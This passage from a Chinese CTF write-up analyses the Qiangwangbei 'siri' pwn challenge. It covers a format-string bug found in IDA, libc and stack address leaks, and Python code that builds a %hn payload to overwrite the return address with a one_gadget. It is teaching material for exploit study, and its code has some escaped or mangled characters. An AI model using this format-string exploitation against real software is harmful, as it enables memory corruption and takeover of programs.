 考察这个知识点的题目还有ciscn2020华南分赛区same和MidnightsunCTF Quals 2020 pwn4，就不多说了

再氵两道题吧，首先是一道强网杯的Siri



## 0x5.强网杯 siri

检查保护

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015ec1410d5afb6e2b.png)

IDA分析

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e2556da067136490.png)

再sub_1212函数中存在格式化字符串漏洞

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb62ebd33787886.png)

这题和上面的题目比起来很简单了，主要是讲一下构造payload

格式化字符串在栈上，直接改返回地址或者malloc_hook为onegadget就行

首先泄露libc和stack地址

[![](https://p3.ssl.qhimg.com/t01b2d893fbc1f861fb.png)](https://p3.ssl.qhimg.com/t01b2d893fbc1f861fb.png)

泄露这两个地方的值得到栈地址和libc地址，函数的返回地址为rbp下方的那个值，所以返回地址为泄露的栈地址-0x118

我们输入的值在这个地方

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0139e73614382ea2f7.png)

得到对应的偏移为%49

首先来试第一种方法，修改返回地址

根据格式化字符串修改内存的用法：%Xc%Y$hn(hhn)，其中X为要写入的字节数，Y为偏移量。在64位格式化字符串漏洞利用中，要写入的地址一般都是放在最后面，所以Y要根据要写入地址的偏移量来设置。而写字节一次性可以写4字节，2字节和1字节，一般选用一次写入2字节和1字节的，一次写入4字节的话要返回值太多，本地可以勉强接受，远程肯定会崩掉。

先来讲下一次性写入两字节的payload的是如何构造的。首先返回地址为6字节长，因为onegadget和返回地址的值所有字节都不相同，所以需要全部修改，-一次改2字节共需要修改3次，这样就有8*3=0x18字节的长度，三个返回地址一次放在payload的最后面。printf函数除了用户输入的数据还会在前面输出`&gt;&gt;&gt; OK, I'll remind you to` ，长度为27，所以在构造pyload的过程中需要减27，还有用户输入的数据是和`Remind me to` 拼接在一起的，长度为13，最后payload对齐的时候需要-13再对齐。payload构造如下：

```
write_size=0
offset=55 #offset根据payload对齐的字节来决定
payload=''
for i in range(3):#一共三次，每次修改两字节
  num=(onegadget&gt;&gt;(16*i))&amp;0xffff#每次将onegadget右移两字节
  num-=27#&gt;&gt;&gt; OK, I'll remind you to 的长度为27
  if num&gt;write_size&amp;0xffff:#如果这一次要写入的字节数大于已经写入的字节数，只需要写入num和write_size之差的字节数即可，因为
    payload+='%`{``}`c%`{``}`$hn'.format(num-(write_size&amp;0xffff),offset+i)#前面已经写入了write_size个字节，再加上差值就能
    write_size+=num-(write_size&amp;0xffff)                            #写入num个字节了
  else:#如果本次要写入的字节数小于已经写入的字节数，那么我们是不能直接写入num个字节的，可以理解为溢出了，比如已经写入了0xffff个字节，而本次要写入0xeeee个字节，”超额“写入了，这个时候就需要写入负数，四字节的最大值为0xffff，可以理解为0x10000为0，0-0xffff得到一个负数-0xffff，然后再加上0xeeee得到差值-0x1111。
    payload+='%`{``}`c%`{``}`$hn'.format((0x10000-(write_size&amp;0xffff))+num,offset+i)
    write_size+=0x10000-(write_size&amp;0xffff)+num
payload=payload.ljust(0x38-13,'a')#八字节对齐
for i in range(3):
  payload+=p64(rip+i*2)#将存储着返回地址的栈地址放到payload的最末尾，每次加2
```